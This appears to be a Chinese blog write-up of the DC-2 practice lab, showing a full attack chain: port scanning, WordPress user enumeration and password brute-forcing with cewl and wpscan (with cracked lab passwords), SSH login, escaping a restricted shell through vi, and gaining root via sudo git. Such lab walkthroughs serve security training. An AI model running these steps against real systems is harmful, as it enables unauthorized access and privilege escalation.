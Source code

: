 ```yaml
---
layout: post
title: 2025-07-08-DC-2
subtitle: 2025-07-08-DC-2
date: 2025-07-08 09:27
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机发现

![Pasted%20image%2020250708092821.png300](https://img.ghostliner.top/JuHdN2.png)

发现`192.168.163.131`，端口扫描
![Pasted%20image%2020250708092929.png300](https://img.ghostliner.top/siB1ce.png)

访问80端口，被重定向到 http://DC-2 ，修改hosts即可访问

目录扫描，发现wp-admin后台登陆路径

访问站点，获取到flag1，按提示使用cewl
![Pasted%20image%2020250708093111.png300](https://img.ghostliner.top/8nOtgC.png)

```shell
cewl http://dc-2/wp-login.php -w pass.txt
wpscan --url http://dc-2/ -e u
# admin jerry tom
echo -e "admin\njerry\ntom" > user.txt
wpscan --url http://DC-2 -e -U user.txt -P pass.txt
# Username: jerry, Password: adipiscing
# Username: tom, Password: parturient
```

![Pasted%20image%2020250708100011.png300](https://img.ghostliner.top/6uYNfN.png)

![Pasted%20image%2020250708095958.png300](https://img.ghostliner.top/1iq7uw.png)

```shell
ssh tom@DC-2 -p 7744
compgen -c
vi flag3.txt
```

获取flag3

![Pasted%20image%2020250708100605.png300](https://img.ghostliner.top/fAT1Xa.png)

rbash提权

```shell
vi flag3.php
:set shell=/bin/sh
:shell
```

进入sh

```shell
export PATH=$PATH:/bin
su jerry
# 输入密码
```

获取flag4

![image.png300](https://img.ghostliner.top/g9FLWN.png)

```shell
sudo -l
# 显示：(root) NOPASSWD: /usr/bin/git
sudo git help config
!/bin/bash
```

提权到root用户，获取flag5

![image.png300](https://img.ghostliner.top/7JcS8d.png)
